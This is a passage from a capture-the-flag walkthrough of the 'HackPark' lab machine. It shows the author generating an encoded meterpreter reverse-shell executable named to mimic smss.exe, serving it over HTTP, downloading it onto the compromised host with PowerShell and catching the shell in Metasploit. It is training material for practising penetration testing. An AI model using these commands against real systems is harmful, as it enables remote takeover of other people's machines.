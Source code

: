 Let's open another terminal in our HackPark directory and create the msfvenom payload.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=Tun0-IP LPORT=7778 -f exe -o smsss.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of exe file: 73802 bytes
Saved as: smsss.exe
```

You can name it whatever you want, I chose to create one similar to smss.exe (Session Manager Subsystem)

Now we need to start a HTTP server using python to transfer the shell to the compromised device.

```
python3 -m http.server
```

Now that the server is open, we need to use powershell with our netcat session on the infected device to transfer the file to the temp directory (since we do not have write privileges for the current directory).

```ps
powershell "(New-Object System.Net.WebClient).Downloadfile('http://Tun0-IP:8000/smsss.exe')"
```

We should see this pop up in our http server terminal to confirm the transfer (or dir in the netcat session):

```
10.10.220.231 - - [21/Feb/2021 23:48:56] "GET /smsss.exe HTTP/1.1" 200
```

Alright, now let's open msfconsole in a new terminal window.

We are going to use the multi/handler.
* set the LHOST to your Tun0-IP.
* set the LPORT to the port you picked (7778).
* exploit!

Now jump over to your netcat session and run the binary (smsss.exe).

Awesome, we got a meterpreter shell!

**1) What is the OS version of this windows machine?**

```
sysinfo
```

Do the same process you did to get your msfvenom shell onto the device, to get x86 [winPEAS.exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe/binaries/x86/Release).
